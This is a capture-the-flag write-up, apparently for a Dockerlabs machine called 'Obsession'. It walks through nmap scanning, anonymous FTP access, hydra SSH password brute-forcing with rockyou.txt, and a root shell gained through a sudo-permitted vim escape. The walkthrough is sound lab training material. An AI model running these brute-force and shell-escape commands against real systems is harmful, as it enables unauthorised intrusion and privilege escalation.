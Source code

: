 # Obsession

## Port Enumeration

To begin our scan, we use the Nmap tool during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```
Let's perform a more targeted scan of the services we have.
For the FTP service, we use this type of scan that tests some typical scripts:

```ruby
nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_1.png)

We see that the default anonymous user and password are allowed, and we find two interesting files:
chat_gonza.txt and pendientes.txt.

Therefore, we download them to view the contents of both files with the following command once we're inside the
FTP service:

![Descripción de Obssesion](Imagenes/Obssesion_2.png)

Similarly, we perform a more specific scan for the SSH service:

```ruby
nmap -p22 -T4 --min-rate 1000 --script vuln,ssh-auth-methods,ssh-publickey-acceptance,sshv1 172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_3.png)

However, we don't get anything relevant.

## Examining the Web Page
Let's see what's on the web page. If we examine the source code,
this appears:
![Descripción de Obssesion](Imagenes/Obssesion_4.png)

## Examining files
Let's examine the two files we downloaded via the FTP service:

fichero pendientes.txt

```ruby
1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!

2 Aumentar el precio de mis asesorías online en la Web!

3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!

4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
  permisos habilitados que no son del todo seguros..
```

fichero chat_gonza.txt
```ruby
[16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
[16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
[16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
[21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
[21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
[22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy
```
We can see that there are three potential users "Gonza", "Russoski" and "Nagore", so we're going to try if any of these users allow us to access the SSH service. For this, I'm going to use the hydra tool and the "rockyou.txt" dictionary.

```ruby
hydra -l gonza -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l russoski -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l nagore -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_5.png)

## Intrusion

We see that we get russoski's password which is "iloveme", so we can now connect to the SSH service:

![Descripción de Obssesion](Imagenes/Obssesion_6.png)


## Privilege Escalation

We execute the command:
```ruby
sudo -l
```

![Descripción de Obssesion](Imagenes/Obssesion_7.png)

We see that we can execute the vim binary as root, so we go to GTFOBins and check if we can exploit it:

```ruby
sudo vim -c ':!/bin/sh'
```
![Descripción de Obssesion](Imagenes/Obssesion_8.png)
